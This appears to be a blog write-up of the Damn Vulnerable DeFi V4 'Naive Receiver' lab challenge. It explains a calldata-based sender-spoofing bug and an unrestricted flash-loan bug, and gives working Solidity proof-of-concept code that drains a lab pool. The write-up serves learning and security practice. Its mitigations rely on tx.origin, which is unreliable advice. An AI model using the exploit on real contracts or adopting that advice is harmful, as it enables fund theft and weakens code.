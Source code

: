 # Damn Vulnerable DeFi V4 - Naive Receiver

## Blog Post

## Introduction

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract.

A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.

All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.

## Scope

[Repository](https://github.com/NikolayPIvanov/damn-vulnerable-defi-v4)

- src/naive-receiver/BasicForwarder.sol
- src/naive-receiver/FlashLoanReceiver.sol
- src/naive-receiver/Multicall.sol
- src/naive-receiver/NaiveReceiverPool.sol

## Notes

### 1. Trusted Forwarder Requirement

One crucial element in this setup is the trusted forwarder. All requests must pass through this forwarder, which handles certain aspects of the transaction, such as the sender’s address, before the call reaches the actual contract. While this is intended to ensure secure routing of requests, the way _msgSender is determined in the receiving contract can introduce subtle vulnerabilities.

### 2. `_msgSender` and the Last 20 Bytes

Within the `NaiveReceiverPool` contract, the `_msgSender` function uses the last 20 bytes of the call data to identify the caller. This design can be problematic because it allows an attacker to craft malicious calldata, effectively impersonating any address simply by controlling those final bytes.

### 3. Draining the Pool with Repeated Flash Loans

Armed with the ability to impersonate addresses, an attacker can:

Continuously request flash loans (for example, taking 10 loans of 1 ETH each if the pool holds 10 ETH).
Force the receiver to repay these loans repeatedly until the pool is fully drained.
Since the fee receiver for these transactions is the contract deployer, and all the fees accumulate under that deployer address, the attacker’s ability to impersonate the deployer becomes especially powerful.

### 4. Fee Receiver and Deployer Impersonation

Because the fee receiver equals the deployer, all protocol fees (or WETH in certain cases) end up under a single address controlled by the deployer. By forging the `_msgSender` to impersonate the deployer:

The attacker can funnel WETH from the NaiveReceiverPool under the deployer’s deposits.
The attacker then finalizes the exploit by calling the withdraw function.

## Analysis

### [H-1] Malicious user can craft custom message sender address impersonating deployer (address spoofing)

#### Description

By crafting the calldata and setting the last 20 bytes to the deployer address, we can impresonate the deployer due to the bug in `NaiveReceiverPool::_msgSender`. Moreover, we can leverage the `Multicall` functionality in conjunction with `[M-1]`.

- Execute 10 flashloans - this will drain the `receiver` address
- Execute 1 withdraw - impersonating the deployer.

[Likelikehood] - High

#### Impact

A malicious user can drain the total funds in the pool, thus stealing the funds and leaving nothing left. This is extremely critical.

#### Proof of Concepts

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    bytes[] memory calls = new bytes[](11);

    // Move the 10 ETH from receiver to the pool
    bytes memory drainReceiverCall = abi.encodeCall(pool.flashLoan, (receiver, address(weth), 1 ether, bytes("")));
    for (uint256 i = 0; i < 10; ++i) {
        calls[i] = drainReceiverCall;
    }

    // deployer == feeRecipient
    // At this point all the funds will be under deposits(deployer)
    uint256 total = WETH_IN_POOL + WETH_IN_RECEIVER;
    bytes memory drainPoolCall = abi.encodePacked(
        abi.encodeCall(pool.withdraw, (total, payable(player))),
        deployer // impersonate the deployer by adding the address the last 20 bytes the of calldata
    );

    calls[10] = drainPoolCall;

    BasicForwarder.Request memory request = BasicForwarder.Request(
        player, // from
        address(pool), // target
        0, // value
        1_000_000, // gas (pass 1M just for test)
        forwarder.nonces(deployer), // nonce
        abi.encodeCall(pool.multicall, (calls)), // data
        block.timestamp
    );

    bytes32 digest = forwarder.getDataHash(request);
    bytes32 domainSeparator = forwarder.domainSeparator();

    bytes32 digestHash = keccak256(abi.encodePacked("\x19\x01", domainSeparator, digest));

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digestHash);
    bytes memory signature = abi.encodePacked(r, s, v);

    require(forwarder.execute(request, signature));

    require(weth.transfer(recovery, total));
}
```

#### Recommended mitigation

The `NaiveReceiverPool::_msgSender` function should be refactored to get the true address of origin of the transaction e.g. `tx.origin`.

Another approach would be to include the message sender as a function parameter and forward it from the `BasicForwarder` smart contract to the `NaiveReceiverPool`.

### [M-1] Anyone can start a flashloan transaction from the receiver's behalf

#### Description

In `FlashLoanReceiver` which holds 10 WETH initially, there is no check for the
origin of the flashloan, which means it can be drained from the initial balance of 10 ETH and transferring it to the pool.

[Likelikehood] - High

#### Impact

A malicious use can transfer the funds from the receiver to the pool, conflicting with the intend of the receiver.

#### Proof of Concepts

We can simulate this easily by using the player as the sender and calling `NaiveReceiverPool::flashLoan` and specifying the receiver as the address to get the loan.

```solidity
function test_drainReceiver() public {
    vm.prank(player);

    console.log("Balance before: ", weth.balanceOf(address(receiver)));
    pool.flashLoan(receiver, address(weth), 1 ether, bytes(""));
    console.log("Balance after: ", weth.balanceOf(address(receiver)));
}
```

*Results*

```solidity
Logs:
  Balance before:  10000000000000000000
  Balance after:  9000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 941.72µs (142.79µs CPU time)
```

#### Recommended mitigation

If we want to restrict who can create flashloan on the behalf of the receiver, we can check the `tx.origin` if it is the owner/deployer of the `NaiveReceiverPool`.

Alternatively, we can create an array that only the owner of the `FlashLoanReceiver` can set. The check of the `tx.origin` should be placed in the `FlashLoanReceiver::onFlashLoan`.
